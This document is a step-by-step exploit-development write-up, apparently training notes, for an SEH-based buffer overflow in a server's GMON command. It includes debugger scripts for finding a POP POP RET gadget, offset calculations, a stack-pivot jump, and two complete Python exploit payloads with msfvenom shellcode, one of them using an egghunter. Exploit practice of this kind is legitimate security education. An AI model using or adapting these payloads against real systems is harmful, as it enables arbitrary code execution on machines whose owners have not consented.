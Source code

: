 ## <ins>GMON</ins>

Just like before, the initial Proof of Concept was executed, this time having `GMON` as the prefix of the buffer.

Following the execution path through IDA and WinDbg, the following byte comparison gets reached:

![7866ad57422c572ec642db02db897806.png](:../../../99\)%20Images/5c2f4fd5c86c4168ab42b2eb045d2656.png)

First, the address of the buffer is moved into EAX, then the value 5 (stored at ebp+var_418) is added to the address (this is the length of the prefix).
Afterwards a comparison is made between the first byte and the character `/`.

Just like before, this ends in a loop in case the `cmp` instruction does not return 0.

Knowing about this check, the following changes were made to the script:

```Python
[...]

prefix = b'GMON '
buffer = b'/' + b'Aa0Aa1Aa2Aa3[...g4F'	# msf-pattern_create -l 4096

payload = prefix + buffer

[...]
```

An access violation is triggered but the value stored in EIP does not seem to exist inside the unique pattern string generated using msf-pattern_create.

Taking a look at the SEH chain reveals, that it got overwritten using values that are indeed in the pattern:

![a44adbc6b9426357a752fe8bf79c6574.png](:../../../99\)%20Images/38eba8d44e7b48f88db40690d64c2866.png)

Letting the execution continue overwrites EIP with `356f4534` which is equivalent to offset 3554 in the pattern (6f45336f equals 3550).

As this appears to be a SEH based buffer overflow it is required to perform a `POP; POP; RET;` instruction sequence (from now on referred to as PPR) and a short jump over the NSEH.

The following WinDbg script was used to look for such a gadget:

```Ruby
.block
{
  .for (r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01)
  {
    .for (r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01)
    {
      s-[1]b 62500000 62508000 $t0 $t1 c3
    }
  }
}
```

![24778c429d669f6181448fb93d7fd5fb.png](:../../../99\)%20Images/0af185a2b7c0447cb41703c2657ee2ad.png)

Overwriting the SEH chain is not enough though, as it only becomes active in case of an exception (which could get achieved by e.g. overwriting memory regions someone is not supposed to).

The following changes were made to the script in order to:

1.  Overwrite the SEH (6 byte short jump) and NSEH (PPR)
2.  Trigger an exception

```Python
[...]

prefix = b'GMON '
buffer = b'/' + b'A' * 3550
seh = b'\xeb\x06\x90\x90'       # 6 byte short jump
nseh = pack('<L', 0x625011b3)   # PPR
junk = b'A' * 2000

payload = prefix + buffer + seh + nseh + junk

[...]
```

Dumping the stack reveals that the space available is not nearly enough for some shellcode to fit in. Because of that a second (larger) jump is required.

It might be possible to utilise an egghunter and just throw the shellcode somewhere but for the GMON command a second (larger) jump will be utilised.

(Once again no bad characters besides 0x00 exist, so this step is skipped)

I will place the shellcode in the initial buffer by replacing the A's with NOPs and the shellcode somewhere in the middle.

In order to jump to the landing pad (NOPs) it is required to calculate the difference between an address somewhere within the landing pad and ESP.

There are various techniques to find a working address / calculate the required offset. One would be to look for the string `GMON /` and then adding some bytes in order to land somewhere in the buffer:

![ffcd33e2430b9395908ba922b16e65cf.png](:../../../99\)%20Images/d59d637473b24e2384f488ec051891bb.png)

Next, ESP can be subtracted from the address (e.g. `0x0111f1f8`) **after** the shortjump got executed.

![2c574c8517836a7b0211cf7a8dd7f7b1.png](:../../../99\)%20Images/5e0c36bd0b6d4ffbbc652301a771f0d0.png)

Since an instruction sequence like `add esp, 0x56c` would contain NULL-bytes you have to use a little trick. When working with CPU registers you can always use just a part of it (e.g. instead of RSP, ESP or instead of ESP, SP):

```Text
┌──(kali㉿kali)-[~]
└─$ msf-nasm_shell                
nasm > add sp,0x56c
00000000  6681C46C05        add sp,0x56c
nasm > 
```

Simply add `ff e4` to the sequence above in order to jump to the stack pointer.

Eventually, the working exploit looked like this:

```Python
# msfvenom -p windows/exec cmd=calc.exe -b "\x00" EXITFUNC=thread -f py -v shellcode
shellcode =  b""
shellcode += b"\xda\xce\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x31"
[...]
shellcode += b"\x13\x36\x06\x40\x80\xda\xe7\xe7\x20\x78\xf8"

length = 3550

prefix = b'GMON /'		# The / was moved to the prefix (doesn't change anything)
buffer = b'\x90' * 32
buffer += shellcode
buffer += b'\x90' * (length - len(buffer))	# The length must still total 3550 bytes
seh = b'\xeb\x06\x90\x90'       # 6 byte short jump
nseh = pack('<L', 0x625011b3)   # PPR
jump = b'\x66\x81\xC4\x6A\x05'	# add sp instruction
jump += b'\xff\xe4'		# jmp to esp
junk = b'A' * 2000		# junk in order to trigger an exception

payload = prefix + buffer + seh + nseh + jump + junk
```

Alternative using a Windows 10 egghunter:

```Python
# msfvenom -p windows/exec cmd=calc.exe -b "\x00" EXITFUNC=thread -f py -v shellcode
shellcode =  b"w00tw00t"
shellcode += b"\xda\xce\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x31"
[...]
shellcode += b"\x13\x36\x06\x40\x80\xda\xe7\xe7\x20\x78\xf8"

length = 3550

prefix = b'GMON /'
buffer = b'\x90' * 32
buffer += shellcode
buffer += b'\x90' * (length - len(buffer))
seh = b'\xeb\x06\x90\x90'       # 6 byte short jump
nseh = pack('<L', 0x625011b3)   # PPR
# egghunter looking for the w00tw00t tag
egghunter = (b"\x66\x81\xca\xff\x0f\x42\x52\xb8\x3a\xfe\xff\xff\xf7\xd8\xcd\x2e\x3c\x05\x5a\x74\xeb\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe6\xaf\x75\xe3\xff\xe7")

junk = b'A' * 2000

payload = prefix + buffer + seh + nseh + egghunter + junk
```

